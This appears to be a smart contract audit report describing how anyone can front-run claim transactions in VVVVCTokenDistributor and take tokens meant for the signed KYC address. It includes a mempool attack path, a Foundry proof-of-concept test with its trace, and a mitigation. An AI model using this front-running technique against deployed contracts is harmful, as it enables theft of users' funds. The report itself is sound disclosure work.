 Soft Candy Liger

High

# Attacker will steal tokens from legitimate users by front-running claim transactions

### Summary

Missing msg.sender validation in claim function will cause a loss of tokens for legitimate users as attackers can front-run claim transactions using valid signatures intended for other users.


### Root Cause

In VVVVCTokenDistributor.sol:claim() the function transfers tokens to msg.sender without verifying if the caller is the intended kycAddress or an authorized alias. This allows any address to use a valid signature meant for another user.
https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/1791f41b310489aaa66de349ef1b9e4bd331f14b/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L129C8-L136C10
```solidity
// transfer tokens from each wallet to the caller
for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
    projectToken.safeTransferFrom(
        _params.projectTokenProxyWallets[i],
        msg.sender,  // Tokens sent to caller without validation
        _params.tokenAmountsToClaim[i]
    );
}
```


### Internal pre-conditions

Claim is not Paused
Legitimate user needs to have a valid signature for claiming tokens
The signature must not be expired (deadline not passed)
The nonce must not have been used

### External pre-conditions

None

### Attack Path

1.Legitimate user broadcasts a transaction to claim tokens using their valid signature
2.Attacker observes this transaction in the mempool
3.Attacker front-runs by submitting the same transaction with higher gas price
4.Attacker's transaction succeeds, receiving the tokens
5.Legitimate user's transaction fails due to used nonce

### Impact

The legitimate users suffer a complete loss of their claimable tokens. 
The attacker gains these tokens without authorization.


### PoC

Add function `testFrontRunClaimVulnerability` in the file `VVVVCTokenDistributor.unit.t.sol`
```solidity
function testFrontRunClaimVulnerability() public {
        // Setup initial actors
        address legitimateUser = sampleKycAddress;
        address attacker = address(0x1337);
        
        // Prepare claim parameters
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);
        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];
        uint256 claimAmount = 1000;
        thisTokenAmountsToClaim[0] = claimAmount;

        // Generate valid claim parameters with signature for legitimate user
        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            legitimateUser,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        // Attacker front-runs the transaction using the same parameters
        vm.startPrank(attacker, attacker);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();

        // Verify attacker successfully received the tokens
        assertEq(
            ProjectTokenInstance.balanceOf(attacker),
            claimAmount,
            "Attacker should receive the tokens"
        );

        // Legitimate user's transaction will fail due to used nonce
        vm.startPrank(legitimateUser, legitimateUser);
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();

        // Verify legitimate user received no tokens
        assertEq(
            ProjectTokenInstance.balanceOf(legitimateUser),
            0,
            "Legitimate user should not receive any tokens"
        );
    }
```
Test command: `forge test --mt testFrontRunClaimVulnerability -vvvvv`
Test log: 
```solidity
  [125927] VVVVCTokenDistributorUnitTests::testFrontRunClaimVulnerability()
    ├─ [2596] VVVVCTokenDistributor::nonces(0x059F6b2a6620c9E07aec6Cca364B7110F8029db9) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::sign("<pk>", 0x6502eb5f7d26e1a571694d0adb674b34ee1080a52687ca221efe42279d9a15bf) [staticcall]
    │   └─ ← [Return] 27, 0xd2be75c8ed1faa19d1df66b4834dc889c4d7706cd69d009551feb5b9115c63f3, 0x08c3b7722aee42ce1b74183e8d199fd4cba7b547e77726716aacb5b8bd7a66d9
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000001337, 0x0000000000000000000000000000000000001337)
    │   └─ ← [Return] 
    ├─ [73903] VVVVCTokenDistributor::claim(ClaimParams({ kycAddress: 0x059F6b2a6620c9E07aec6Cca364B7110F8029db9, projectTokenAddress: 0x04a19Aaae62Aa4603aB4240E92D2639AC90999eA, projectTokenProxyWallets: [0x109136A644e106eC22988c23c38bA83714991512], tokenAmountsToClaim: [1000], nonce: 1, deadline: 3601, signature: 0xd2be75c8ed1faa19d1df66b4834dc889c4d7706cd69d009551feb5b9115c63f308c3b7722aee42ce1b74183e8d199fd4cba7b547e77726716aacb5b8bd7a66d91b }))
    │   ├─ [3000] PRECOMPILES::ecrecover(0x6502eb5f7d26e1a571694d0adb674b34ee1080a52687ca221efe42279d9a15bf, 27, 95322212066077781634418411643973504336550908346332981518067224039008096773107, 3964304063834429902508423367574125892841345891109613658923324613344557164249) [staticcall]
    │   │   └─ ← [Return] 0x000000000000000000000000eb4665750b1382df4aebf49e04b429aaac4d9929
    │   ├─ [35662] MockERC20::transferFrom(0x109136A644e106eC22988c23c38bA83714991512, 0x0000000000000000000000000000000000001337, 1000)
    │   │   ├─ emit Transfer(from: 0x109136A644e106eC22988c23c38bA83714991512, to: 0x0000000000000000000000000000000000001337, value: 1000)
    │   │   └─ ← [Return] true
    │   ├─ emit VCClaim(kycAddress: 0x059F6b2a6620c9E07aec6Cca364B7110F8029db9, projectTokenAddress: MockERC20: [0x04a19Aaae62Aa4603aB4240E92D2639AC90999eA], projectTokenProxyWallets: [0x109136A644e106eC22988c23c38bA83714991512], tokenAmountsToClaim: [1000], nonce: 1)
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [562] MockERC20::balanceOf(0x0000000000000000000000000000000000001337) [staticcall]
    │   └─ ← [Return] 1000
    ├─ [0] VM::startPrank(0x059F6b2a6620c9E07aec6Cca364B7110F8029db9, 0x059F6b2a6620c9E07aec6Cca364B7110F8029db9)
    │   └─ ← [Return] 
    ├─ [0] VM::expectRevert(InvalidNonce())
    │   └─ ← [Return] 
    ├─ [2622] VVVVCTokenDistributor::claim(ClaimParams({ kycAddress: 0x059F6b2a6620c9E07aec6Cca364B7110F8029db9, projectTokenAddress: 0x04a19Aaae62Aa4603aB4240E92D2639AC90999eA, projectTokenProxyWallets: [0x109136A644e106eC22988c23c38bA83714991512], tokenAmountsToClaim: [1000], nonce: 1, deadline: 3601, signature: 0xd2be75c8ed1faa19d1df66b4834dc889c4d7706cd69d009551feb5b9115c63f308c3b7722aee42ce1b74183e8d199fd4cba7b547e77726716aacb5b8bd7a66d91b }))
    │   └─ ← [Revert] InvalidNonce()
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [2562] MockERC20::balanceOf(0x059F6b2a6620c9E07aec6Cca364B7110F8029db9) [staticcall]
    │   └─ ← [Return] 0
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.42ms (659.74µs CPU time)

Ran 1 test suite in 1.44s (2.42ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Add validation in the claim function to ensure msg.sender is either the kycAddress or an authorized alias:
```solidity
function claim(ClaimParams memory _params) public {
    // ... existing checks ...
    
    require(
        msg.sender == _params.kycAddress || isAuthorizedAlias(_params.kycAddress, msg.sender),
        "Caller must be KYC address or authorized alias"
    );
    
    // ... rest of the function ...
}
```